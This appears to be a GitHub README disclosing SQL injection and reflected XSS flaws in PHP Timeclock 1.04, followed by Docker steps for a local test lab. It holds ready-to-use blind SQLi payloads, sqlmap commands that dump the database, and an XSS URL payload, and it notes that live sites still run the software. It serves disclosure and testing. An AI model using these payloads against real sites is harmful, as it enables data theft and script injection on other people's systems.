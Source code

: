 # PHP Timelock 1.04 SQLi and XSS Vulnerabilities 

![](img/reflective-xss.png)


> This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. PHP Timeclock is a legacy php application created in 2006 and maintained up until 2013. Unfortunately, several production sites still use the application, and can be identified with basic OSINT. The vulnerabilities include, 
> 1) Unauthenticated Time and Boolean Based SQL Injection (SQLI)
> 2) Unauthenticated Reflected Cross Site Scripting (XSS)
> 3) Authenticated Reflected Cross Site Scripting (XSS)  



**Index**
- [PHP Timelock 1.04 SQLi and XSS Vulnerabilities](#php-timelock-104-sqli-and-xss-vulnerabilities)
  - [Indentified Vulnerabilities](#indentified-vulnerabilities)
    - [PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection](#php-timeclock-104-time-and-boolean-based-blind-sql-injection)
      - [PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)](#php-timeclock-104-multiple-unauthenticated-reflected-cross-site-scripting-xss)
  - [Local Testing](#local-testing)
  - [Remote Testing](#remote-testing)

## Indentified Vulnerabilities 

### PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection  

![](img/sqli.png)


Description: PHP Timeclock is vulnerable to both Boolean and Time Based SQL Injection on login.php via the login_userid parameter. This PoC shows how SQLmap can be used to exploit this vulnerability to dump database contents

Boolean Based Payload: user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
Time Based Payload: user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass


Steps to reproduce:
  1. Run sqlmap against a instance of PHP Timeclock
  2. Follow the instructions below for specific versions of MySQL


MySQL >= 5.0.12: 
```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --dbms=MySQL --technique=TB --current-db
---
Parameter: login_userid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_userid=user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass
---
```

MySQL < 5: On versions using MySQL < 5, table names must be included as arguments as information_schema was not introduced into MySQL yet.

```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --technique=B -D timeclock -T employees, -C empfullname --dump --dbms=MySQL -v 
---
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
---

```  

#### PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)


Description: PHP Timeclock version 1.04 (and prior) suffers from multiple Unauthenticated Reflected Cross-Site Scripting Vulnerabilities. Arbitrary javascript can be injected into the application by appending a termination /'> and payload directly to the end of the GET request URL. The vulnerable paths include (1) /login.php  (2) /timeclock.php (3) /reports/audit.php and (4) /reports/timerpt.php. 


Payload: /'><svg/onload=alert`xss`>

Example: http://target/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E

![](img/reflective-xss.png)

Steps to reproduce:
  1. Navigate to a site that uses PHP Timeclock 1.04 or earlier
  2. Make a GET request to one of the four resources mentioned above
  3. Append /'> and the payload to the end of the request
  4. Submit the request and observe payload execution
## Local Testing 

This repository was my attempt at dockerizing the 2006-2013 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


It was a bit of a pain to create a test environment for PHP Timeclock due to the fact it requires legacy version of PHP and MySQL. To get version 1.04 up and running without modifying source code, the application requires MySQL 4 and PHP 4. To accomondate this, I created this docker container based on [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker). 

1) Clone the repo  

 `git clone https://github.com/tcbutler320/php-timeclock-docker`

2) cd into the docker folder 

`cd php-timeclock-docker/docker`

3) build docker image 

`docker build -f Dockerfile.ubuntu -t timeclock .`

4) Run the image 

`docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

5) Drop into the container with bash  

`sudo docker exec -it timeclock /bin/bash  ` 

6) open a mysql shell 

`mysql -u root -p`, using password IAmroot

7) create the timeclock database 

`create database timeclock;`

8)  exit the mysql shell
   
9)  populate the database with the sql file 

`mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`

## Remote Testing   

Upon request I will open a remote server for testing, drop me message on twitter @tbutler0x90